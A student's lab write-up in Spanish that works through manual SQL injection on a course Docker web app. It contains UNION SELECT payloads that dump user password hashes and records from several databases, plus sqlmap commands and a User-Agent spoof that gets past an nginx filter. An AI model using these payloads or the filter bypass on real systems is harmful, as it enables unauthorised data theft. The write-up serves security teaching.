# Práctica 1 - Ataques a servidores de datos - Alejandro Torres Ansio

### Introducción

A lo largo de este documento abordo los tres ejercicios de la PRAC 1 sobre el entorno Docker proporcionado por la UOC, siguiendo en todo momento un enfoque manual en primer lugar, tal como exige el enunciado en la mayoría de los apartados: razono cada petición HTTP realizada y el motivo por el que funciona antes de recurrir a cualquier herramienta de automatización.

Todas las capturas de pantalla, peticiones y resultados mostrados a continuación corresponden a pruebas realizadas directamente contra el contenedor de laboratorio proporcionado, sin acceder a él por ninguna vía distinta a la propia aplicación web (sin `docker exec`, shells, ni acceso directo a la base de datos).

## Ejercicio 1: SQL Injection

### Enlace Departamentos (extracción manual)

Al entrar en el enlace "Departamentos" de la web, observo que la URL resultante es `http://localhost:8000/departamento.php?departamento=1`. El valor del departamento se pasa como parámetro GET directamente en la URL, lo cual es un punto de entrada típico para probar inyección SQL.

#### Confirmación de la vulnerabilidad

Para comprobar si el parámetro es vulnerable, empiezo comparando el comportamiento de la aplicación ante una condición que siempre es verdadera frente a una que siempre es falsa. Pruebo primero con `departamento=1 and 1=1`, que mantiene la condición original pero le añade una condición siempre verdadera; si la aplicación es vulnerable, debería comportarse igual que con `departamento=1` solo.



A continuación pruebo con `departamento=1 and 1=2`, una condición siempre falsa. Si la aplicación es vulnerable, el resultado debería cambiar, y efectivamente así es: deja de haber asignaturas disponibles.



Esta diferencia de comportamiento confirma que el parámetro `departamento` está alterando directamente la consulta SQL que se ejecuta en el servidor. Para rematar la confirmación, pruebo a introducir una comilla simple (`'`), que debería romper la sintaxis si el valor no se filtra correctamente:

```
http://localhost:8000/departamento.php?departamento=1'
```



Efectivamente, la aplicación devuelve un error de sintaxis SQL explícito. Esto confirma tanto la existencia de la inyección como el hecho de que la aplicación no gestiona correctamente los errores, lo que me va a facilitar mucho la extracción de información mediante esta técnica de "abuso de errores".

Antes de poder usar `UNION SELECT` para inyectar mis propias consultas, necesito saber cuántas columnas devuelve la consulta original, ya que `UNION` exige que ambas consultas tengan el mismo número de columnas. Para ello utilizo la cláusula `ORDER BY`, que ordena los resultados según la posición de una columna: si pido ordenar por una columna que no existe, el motor devuelve un error. Pruebo con `ORDER BY 1`:

```
http://localhost:8000/departamento.php?departamento=1 order by 1
```



Y con `ORDER BY 2`:

```
http://localhost:8000/departamento.php?departamento=1 order by 2
```



Como `ORDER BY 1` funciona pero `ORDER BY 2` da error, deduzco que la consulta vulnerable devuelve exactamente **1 columna**. Con este dato ya puedo construir correctamente la inyección `UNION SELECT`.

Para confirmar que el mecanismo funciona y localizar dónde se muestra el resultado, inyecto un valor fijo y reconocible:

```
http://localhost:8000/departamento.php?departamento=1 union select 'test123'
```


El resultado no aparece en el desplegable de "Departamento", sino en el de "Asignaturas". Tiene sentido: la consulta de 1 columna que estoy secuestrando con `UNION` es la que rellena ese desplegable en función del departamento seleccionado, no la que genera la lista de departamentos, que debe generarse con una consulta independiente.

Antes de seguir extrayendo información, necesito saber qué sistema gestor de base de datos hay detrás, ya que la sintaxis para consultar metadatos varía según el motor. Pruebo con la función `version()`, válida en MySQL/MariaDB y PostgreSQL:

```
http://localhost:8000/departamento.php?departamento=1 union select version()
```



El resultado confirma que el motor es **MariaDB 10.11.14**. A partir de aquí, toda la sintaxis que use debe ser compatible específicamente con MariaDB/MySQL.

#### Exploración de la base de datos de la aplicación (`uoc`)

Para saber qué información hay disponible, consulto `information_schema.tables`, el catálogo interno que todo motor SQL mantiene con los metadatos de las tablas existentes:

```
http://localhost:8000/departamento.php?departamento=1 union select table_name from information_schema.tables where table_schema=database()
```

La función `database()` devuelve el nombre de la base de datos a la que está conectada la aplicación en este momento, de forma que filtro para ver solo sus tablas y no mezclarlas con las de otras bases de datos que pueda haber en el mismo servidor.



Obtengo 4 tablas: `departamento`, `asignatura`, `expedientes` y `users`. Esta última es la más interesante a priori, ya que suele contener credenciales, así que empiezo por ahí. Primero necesito saber los nombres exactos de sus columnas, consultando ahora el catálogo de columnas de `information_schema`:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()
```

Uso `group_concat()` porque, al haber varias columnas (varias filas de resultado) y solo 1 hueco disponible en la consulta vulnerable, esta función me permite juntarlas todas en un único texto separado por comas, en vez de ver solo la primera.


La tabla `users` tiene solo dos columnas: `user` y `pass`. Con esto confirmado, extraigo el contenido real:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(user,0x3a,pass separator 0x0a) from users
```

Aquí utilizo dos valores en hexadecimal en lugar de escribirlos directamente como cadenas entre comillas: `0x3a` corresponde al carácter `:` y `0x0a` a un salto de línea. Opto por la notación hexadecimal porque las comillas simples dentro de la URL pueden generar conflictos de interpretación (tanto por la codificación de la propia URL como por posibles filtros de la aplicación), mientras que un literal hexadecimal es interpretado directamente por MariaDB como una cadena de bytes sin ese riesgo. De esta forma obtengo cada fila con el formato `usuario:contraseña`, y cada usuario en una línea distinta gracias al separador.



Obtengo tres pares usuario:contraseña, en formato hash (probablemente MD5, a juzgar por su longitud de 32 caracteres hexadecimales):

```
jacinto:abf8412b7c606f8acd8b58968e9b4733
luisito:79b35a8a38b485c82bb351ad94f966df
lolita:d6d85d89b4612501521435bd3f620a9a
```

Para confirmar el número exacto de usuarios dados de alta y responder a la pregunta 1c, utilizo la función de agregación `count(*)`:

```
http://localhost:8000/departamento.php?departamento=1 union select count(*) from users
```



Confirmo que hay **3 usuarios** dados de alta en el SGBD, coincidiendo con los tres pares ya extraídos.

Paso a la tabla `expedientes`. Repito el mismo proceso, consultando primero sus columnas:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='expedientes' and table_schema=database()
```


Las columnas son `id`, `nombre`, `expediente` y `nota` (en un primer intento de extracción escribí por error `nombres` en lugar de `nombre`, lo que me generó un error de consulta al referenciar una columna inexistente; revisando este listado confirmo el nombre correcto). Extraigo el contenido compacto:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(id,0x3a,nombre,0x3a,expediente,0x3a,nota separator 0x0a) from expedientes
```



Para visualizarlo de forma más clara, una opción del desplegable por cada alumno en lugar de todo concatenado en una sola línea, repito la extracción sustituyendo `group_concat` por `concat`: así la consulta sigue devolviendo una fila por cada registro de la tabla, en vez de aplanarlas todas en una sola.

```
http://localhost:8000/departamento.php?departamento=1 union select concat(id,0x3a,nombre,0x3a,expediente,0x3a,nota) from expedientes
```



Obtengo:

```
0:luis:11111:7.8
0:pablo:222333:9.1
0:milton:543434:3.4
0:maria:309439:5.4
0:pepe:23223:4.4
0:isabel:23656:8.4
```

Aquí observo un detalle llamativo: **todos los valores de `id` son 0**, poco habitual para lo que normalmente sería una clave primaria autoincremental. Guardo esta observación, ya que el propio enunciado pide fijarse en "algo que no cuadra", y vuelvo sobre ella más adelante. Confirmo también el número total de filas:

```
http://localhost:8000/departamento.php?departamento=1 union select count(*) from expedientes
```


Seis filas, coincidiendo con los seis alumnos ya extraídos.

Reviso por completitud las dos tablas restantes. Para `departamento`:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='departamento' and table_schema=database()
```


```
http://localhost:8000/departamento.php?departamento=1 union select concat(id,0x3a,descr) from departamento
```



```
0:Informatica
1:Ciberseguridad
2:Humanidades
3:Ingenieria software
```

Resulta interesante contrastar este resultado con el de `expedientes`: aquí los `id` sí son correlativos (0,1,2,3) y coinciden con lo que se observa en la propia aplicación web, lo que refuerza la idea de que el problema de los `id` en `0` es específico de la tabla `expedientes`. Para `asignatura`:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='asignatura' and table_schema=database()
```


```
http://localhost:8000/departamento.php?departamento=1 union select concat(id,0x3a,descr,0x3a,id_dep) from asignatura
```



```
0:Bases de datos:0
1:Estructura computadores:0
3:Programacion:0
2:Hacking Etico:1
4:Criptografia:1
5:Auditoria informatica:1
6:Letras I:2
7:Letras II:2
8:Calidad software:3
9:Desarrollo software:3
```

Con esto confirmo que `departamento` y `asignatura` son simplemente el catálogo normal de la aplicación, sin relación con las preguntas sobre "bono" o "acción" planteadas en el enunciado. Compruebo además que no me falta ninguna tabla en esta base de datos:

```
http://localhost:8000/departamento.php?departamento=1 union select count(*) from information_schema.tables where table_schema=database()
```


Se confirman las 4 tablas ya identificadas. Sin embargo, caigo en que este filtro (`table_schema=database()`) solo contempla la base de datos a la que está conectada la aplicación, y un mismo servidor MariaDB puede alojar varias bases de datos de forma independiente. Decido comprobar si existen otras.

#### El detalle que no cuadra: otras bases de datos en el servidor

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(schema_name separator 0x0a) from information_schema.schemata
```

`information_schema.schemata` es el catálogo de bases de datos de todo el servidor, un nivel por encima de `information_schema.tables`, que solo lista tablas dentro de una base de datos concreta.



Obtengo:

```
information_schema
mydatabase
mysql
sys
expedientes
uoc
facturas
Empleados
logins
performance_schema
```

Descartando las bases de datos propias del sistema (`information_schema`, `mysql`, `sys`, `performance_schema`), aparecen varias bases de datos ajenas a la aplicación web que no había explorado: `mydatabase`, `expedientes`, `uoc`, `facturas`, `Empleados` y `logins`. Este es, a mi parecer, el verdadero "detalle que no cuadra" que busca el enunciado: hay información sensible repartida en bases de datos que nada tienen que ver con la web de departamentos y asignaturas, y a las que se puede acceder igualmente desde el mismo punto de inyección. Confirmo primero cuál es la base de datos de la propia aplicación:

```
http://localhost:8000/departamento.php?departamento=1 union select database()
```


Confirmo que la aplicación está conectada a **`uoc`**, que es donde están las 4 tablas ya exploradas.

#### La base de datos `Empleados`: respuesta a la pregunta 1a

Decido explorar `Empleados` por su nombre, que parece la más relacionada con las preguntas 1a y 1b del enunciado:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(table_name separator 0x0a) from information_schema.tables where table_schema='Empleados'
```

A diferencia de las consultas anteriores, aquí indico el nombre de la base de datos directamente como texto fijo (`table_schema='Empleados'`) en lugar de usar `database()`, ya que quiero consultar una base de datos distinta a la que usa la aplicación.


Reviso las columnas de las tres tablas. Para `Nominas`:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='Nominas' and table_schema='Empleados'
```



Para `Cargos`:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='Cargos' and table_schema='Empleados'
```


Y para `Salarios`:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='Salarios' and table_schema='Empleados'
```



La tabla `Salarios` contiene la columna `bono` que necesito, relacionada con `Cargos` a través de `id_cargo`. Al intentar consultar el contenido de `Cargos` con `from Cargos` a secas, obtengo un error de consulta, ya que al no indicar la base de datos, MariaDB busca la tabla por defecto dentro de `uoc` (la base de datos a la que está conectada la aplicación), donde `Cargos` no existe. Corrijo utilizando la notación `base_de_datos.tabla`, que permite referenciar explícitamente una tabla de otra base de datos distinta a la actual:

```
http://localhost:8000/departamento.php?departamento=1 union select concat(id_cargo,0x3a,nombre_cargo,0x3a,descripcion) from Empleados.Cargos
```



Localizo el cargo de Mantenimiento con `id_cargo=5`. Cruzo este dato con la tabla `Salarios`:

```
http://localhost:8000/departamento.php?departamento=1 union select concat(id_salario,0x3a,id_cargo,0x3a,salario_base,0x3a,bono) from Empleados.Salarios where id_cargo=5
```


**Respuesta a la pregunta 1a**: el bono de la persona de mantenimiento es **99.99**.

#### La base de datos `expedientes`: respuesta a la pregunta 1b

Para la pregunta 1b exploro ahora la base de datos `expedientes` (distinta de la tabla del mismo nombre dentro de `uoc`):

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(table_name separator 0x0a) from information_schema.tables where table_schema='expedientes'
```


El nombre "historial" resulta muy prometedor para encontrar una acción asociada a un expediente. Compruebo sus columnas:

```
http://localhost:8000/departamento.php?departamento=1 union select group_concat(column_name) from information_schema.columns where table_name='expedientes_historial' and table_schema='expedientes'
```


Encuentro la columna `accion`, relacionada con `expediente_id`, exactamente lo que buscaba. Extraigo el contenido completo:

```
http://localhost:8000/departamento.php?departamento=1 union select concat(id,0x3a,expediente_id,0x3a,accion,0x3a,fecha,0x3a,usuario) from expedientes.expedientes_historial
```



**Respuesta a la pregunta 1b**: la acción del expediente número 4 es **"Archivo"** (fecha 2023-04-25, realizada por el usuario "Archivador").

#### Cierre del detalle curioso: los IDs en 0 de la tabla `expedientes`

Antes de dar por cerrada esta parte del ejercicio, retomo el detalle de los `id` en `0` observado en la tabla `expedientes` de `uoc`. Para descartar que se tratara de un problema de conversión automática de tipos (si la columna estuviera declarada como texto, un valor no numérico se convertiría a `0` al forzarlo a número), compruebo el tipo de dato real de la columna:

```
http://localhost:8000/departamento.php?departamento=1 union select concat(column_name,0x3a,data_type) from information_schema.columns where table_name='expedientes' and table_schema=database() and column_name='id'
```


La columna está declarada correctamente como `int` (numérico), lo que descarta un problema de conversión de tipos. Si el tipo es correcto pero todos los valores son literalmente `0`, esto indica que los datos se insertaron así de forma intencionada, sin aprovechar el autoincremento o forzando el valor `0` en cada fila, a diferencia de lo que ocurre en `departamento` y `asignatura`, donde los `id` sí son correlativos. Concluyo que se trata de un descuido o, más probablemente, de un señuelo colocado deliberadamente en esta tabla.

#### Extracción automatizada con SQLmap

Una vez completada la extracción manual, y tal como indica el enunciado, procedo a lanzar SQLmap contra el mismo punto de inyección para comparar los resultados y comprobar si la herramienta automatizada es capaz de obtener más información que la obtenida manualmente.

El primer intento con la configuración por defecto resulta en un fallo inesperado:

```bash
sqlmap -u "http://localhost:8000/departamento.php?departamento=1" --batch --dump-all -v 3
```

SQLmap no llega siquiera a confirmar la conectividad básica con el servidor: cada una de las peticiones que envía, incluida la comprobación inicial sin ningún payload de inyección, recibe como respuesta un código `403 Forbidden`. Esto resulta llamativo, ya que la misma URL, visitada manualmente con el navegador, funciona sin ningún problema. El hecho de que incluso la petición más básica sea rechazada sugiere que el bloqueo no tiene relación con la inyección SQL en sí, sino con algún tipo de filtro que examina la propia petición HTTP antes de que llegue a procesarse.

Para confirmar esta sospecha, reproduzco una petición equivalente con `curl`, forzando manualmente el mismo User-Agent que utiliza SQLmap por defecto:

```bash
curl -A "sqlmap/1.9.8#stable (http://sqlmap.org)" "http://localhost:8000/departamento.php?departamento=1" -v
```

El resultado es, efectivamente, un `403 Forbidden` devuelto directamente por **nginx** (el servidor web situado delante de la aplicación), antes de que la petición llegue al script PHP. Para descartar cualquier otra causa, repito la misma petición cambiando únicamente el User-Agent por uno de un navegador convencional:

```bash
curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" "http://localhost:8000/departamento.php?departamento=1" -v
```

Esta vez la respuesta es un `200 OK` con el HTML completo de la página. Queda así confirmado que nginx está filtrando las peticiones por la cadena `sqlmap` presente en el User-Agent por defecto de la herramienta, sin llegar a evaluar el contenido de la petición. Se trata de un mecanismo de defensa perimetral básico, en la línea de lo que describe el apartado de evasión de controles de seguridad de mis apuntes, con la particularidad de que la firma bloqueada no es un payload de inyección, sino el propio identificador de la herramienta de pentesting utilizada.

Para evitar este bloqueo, relanzo SQLmap indicando explícitamente un User-Agent de navegador mediante el parámetro `--user-agent`, y guardo toda la salida en un archivo de log con `tee` para poder adjuntarlo en la entrega:

```bash
